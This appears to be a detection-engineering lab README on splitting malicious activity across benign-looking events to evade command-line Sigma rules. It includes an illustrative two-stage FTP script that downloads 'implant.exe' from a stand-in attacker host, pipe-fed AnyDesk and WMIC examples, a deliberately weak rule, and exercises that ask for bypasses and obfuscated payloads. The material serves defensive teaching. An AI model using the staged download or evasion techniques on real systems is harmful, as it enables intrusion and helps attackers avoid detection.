






# Demo 02 - Fragmentation & Chaining

> *"Why put my malicious string on one command line when I can spread it across three benign ones?"*

## The Bypass

Many Windows binaries support **interactive mode** - they read commands from stdin or from a script file. An adversary who can write a small script file and then invoke the binary against it produces telemetry where:

- The **process command line** contains nothing suspicious - just a normal LOLBIN reading a script file
- The **actual malicious operations** live in the script file, which rules normally don't have access to
- **Parent-child** relationships and **time correlation** are the only signals that the file write and the process execution are related

This is one of the highest-value bypass categories because it defeats the entire family of "command-line contains" detections.

## ADE Category

**ADE3 - Context Development.** The adversary games the *correlation layer*. The malicious activity is split into two or more events that look independently benign. A rule looking at single events misses it; only correlation across events catches it.

## Illustrative Payload

```text
:: Stage 1 - write the script
echo open malicious.example.com 21       > %TEMP%\a.txt
echo user attacker password               >> %TEMP%\a.txt
echo binary                               >> %TEMP%\a.txt
echo get implant.exe                      >> %TEMP%\a.txt
echo bye                                  >> %TEMP%\a.txt

:: Stage 2 - execute
ftp.exe -s:%TEMP%\a.txt
```

The process telemetry shows `ftp.exe -s:%TEMP%\a.txt`. Nothing about that string mentions a hostile domain, a credential, or an executable download.

### Real-world example: pipe-fed AnyDesk password

A Sigma rule that tries to catch AnyDesk being silently configured with `--set-password` looks reasonable:



But the actual incident telemetry splits across **two separate processes**. The first `cmd.exe` simply echoes a generated password:



The second process, AnyDesk, is invoked with a piped stdin (the password) and the rule sees a clean `AnyDesk.exe --set-password` command line - no echo, no random string:



The rule expected the entire chain to appear on one command line. It never does — regardless of quoting. The full chain (`echo <password> | AnyDesk.exe --set-password`) is only ever visible on the *wrapping* `cmd.exe` process's command line; the `AnyDesk.exe` process itself receives a clean `--set-password` and reads the password from stdin. Quoting the wrapper (`cmd /c "echo ... | AnyDesk.exe ..."`) changes neither side: the wrapper still carries the whole chain and AnyDesk's own command line stays clean either way (verified by capturing both processes' command lines). A rule scoped to `AnyDesk.exe` sees only the flag; a rule scoped to `cmd.exe` would catch the wrapper — which is why the unit of analysis is the whole point.

### Real-world example: WMIC interactive mode

Same pattern, different binary. An attacker writes a wmic command to stdin via echo + pipe:



The resulting WMIC.exe process telemetry shows a bare `wmic` command line - the actual statement isn't in the process arguments at all:



The wrapper `cmd.exe` does have the full statement on its command line - but a rule looking at WMIC alone misses it:



## Vulnerable Rule

```yaml
title: FTP Download from Suspicious Domain (Naive)
id: 22222222-2222-2222-2222-000000000001
status: experimental
description: Detects ftp.exe being used to download from non-corporate domains
logsource:
  product: windows
  category: process_creation
detection:
  selection:
    Image|endswith: '\ftp.exe'
    CommandLine|contains: 'malicious.example.com'
  condition: selection
level: medium
```

## Why It Misses

The malicious domain never appears in the `ftp.exe` command line - it's inside the script file, which `process_creation` telemetry doesn't expose. The rule will only fire if the adversary makes the rookie mistake of passing the host on the command line directly (`ftp.exe malicious.example.com`).

## Your Turn - Design the Detection

**Goal.** Detect script-driven LOLBin invocations (e.g., `ftp.exe -s:`, `cmd /c <file>`, `powershell -File <file>`) regardless of which binary or which script-input flag the attacker used.

**Constraints.**
- This is **not a single rule** - it's a multi-event correlation. Embrace that.
- Single-event "command-line contains" rules are useless here; the malicious content lives in a file the rule never reads.
- The detection must catch the *pattern* (script written, then executed by a LOLBin) without enumerating every binary individually.

**Hints.**
- Think about Sysmon EID 11 (FileCreate) and EID 1 (ProcessCreate). What relationship between two events of these types signals "freshly-written file got executed by a LOLBin"?
- Parent-child process telemetry tells you which process wrote the file vs. which process executed it. Are those usually the same?
- Time windows matter - what's a reasonable upper bound between "wrote the script" and "executed it"?
- What's your false-positive surface (compilers? installers? IDEs?), and how do you scope around it?

**Reflection.** Once you've sketched your detection (rules + correlation logic), compare it to the maintainer's take in [`../../solutions/README.md`](../../solutions/README.md#demo-02--fragmentation--chaining). The maintainers chose to combine a single-event flag rule with a separate correlation rule - what tradeoff does that represent?

## Exercises

1. This demo cites ADE3 (Context Development), not ADE2 (Omit Alternatives). Why? Argue the case using the *unit of analysis* - what is the rule looking at, and what is the attack actually doing?

2. List **three other Windows binaries** that have an interactive or script-input mode an attacker could exploit the same way. For each, name the flag that triggers script-mode and describe the file-write + execute sequence.

3. The hardened rule fires on `ftp.exe -s:`. How would you bypass it while still using FTP for the same outcome? (Hint: there's more than one way, including one that involves a non-FTP binary entirely.)

4. Combine this with **Demo 08 (Obfuscation)** - write a payload where the script file *itself* is obfuscated (e.g., the FTP commands are constructed from fragments). What's the next layer of detection?

5. Sketch a behavioral-invariant detection that catches "process X executed a script file written less than N seconds ago." It should fire for `ftp.exe -s:`, `cmd.exe /c <freshly-written.bat>`, `powershell.exe -File <freshly-written.ps1>`, and similar patterns - without enumerating each binary individually. What telemetry sources do you need? What's the false-positive surface?
